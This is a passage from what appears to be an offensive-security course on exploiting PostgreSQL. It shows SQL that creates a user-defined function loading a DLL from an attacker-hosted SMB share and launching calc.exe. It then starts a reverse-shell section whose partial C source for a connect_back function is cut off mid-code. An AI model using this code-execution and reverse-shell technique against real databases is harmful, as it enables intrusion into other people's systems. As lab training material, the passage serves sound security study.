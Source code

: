 > Listing 49 - Starting the Samba service with a simple configuration file to test remote DLL loading

Once the Samba service is running, we can create a new Postgres UDF and point it to the DLL file hosted on the network share.

```
CREATE OR REPLACE FUNCTION remote_test(text, integer) RETURNS void AS $$\\192.168.119.120\awae\awae.dll$$, $$awae$$ LANGUAGE C STRICT;
SELECT remote_test($$calc.exe$$, 3);
```

> Listing 50 - Creating a UDF from a network share. 192.168.119.120 is the Kali attacker IP address.

If we then run the _SELECT_ query from our previous example using the _remote_test_ function, we should once again see three instances of _calc.exe_ in the Task Manager.

#### Exercise

Recreate the DLL files described in this section and make sure that your Postgres UDF functions successfully spawn _calc.exe_ processes.

## 3.7. UDF Reverse Shell

Now that we have seen how to write and execute arbitrary code using PostgreSQL, the only thing remaining is to gain a reverse shell.

At this point, this should not be too difficult. Nevertheless, the following partial C code should help you along the way.

```
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include <winsock2.h>
#include "utils/builtins.h"
#pragma comment(lib, "ws2_32")

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum connect_back(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(connect_back);

WSADATA wsaData;
SOCKET s1;
struct sockaddr_in hax;
char ip_addr[16];
STARTUPINFO sui;
PROCESS_INFORMATION pi;

Datum
connect_back(PG_FUNCTION_ARGS)
{

	/* convert C string to text pointer */
#define GET_TEXT(cstrp) \
   DatumGetTextP(DirectFunctionCall1(textin, CStringGetDatum(cstrp)))

	/* convert text pointer to C string */
#define GET_STR(textp) \
```